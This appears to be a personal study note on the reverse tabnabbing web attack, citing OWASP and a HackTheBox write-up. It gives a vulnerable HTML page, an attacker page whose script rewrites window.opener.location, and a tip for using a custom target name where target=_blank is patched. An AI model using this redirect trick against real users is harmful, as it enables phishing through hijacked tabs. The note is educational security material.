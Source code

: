 # Reverse Tabnabbing

see box: [[../../WriteUps/HackTheBox/Developer/WriteUp]]
see box: [[../../WriteUps/HackTheBox/Developer/WriteUp|Custom Link]]


Background Infos:  https://html.spec.whatwg.org/multipage/browsers.html#determining-the-origin

HTB Example: https://blog.0xprashant.in/posts/htb-bug/

OWASP: https://owasp.org/www-community/attacks/Reverse_Tabnabbing

![[docs/Pasted image 20211031000935.png]]

Examples
Vulnerable page:
```html
<html>
 <body>
  <li><a href="bad.example.com" target="_blank">Vulnerable target using html link to open the new page</a></li>
  <button onclick="window.open('https://bad.example.com')">Vulnerable target using javascript to open the new page</button>
 </body>
</html>
```

Malicious Site that is linked to:

```html
<html>
 <body>
  <script>
   if (window.opener) {
      window.opener.location = "https://geizhals.de";
   }
  </script>
 </body>
</html>
```

see box: [[../../WriteUps/HackTheBox/Developer/WriteUp]]

# fixed in many browsers

target="_blank" is fixed in many browsers but if you can control the target attribute you can still use something like target="aa" to get this working
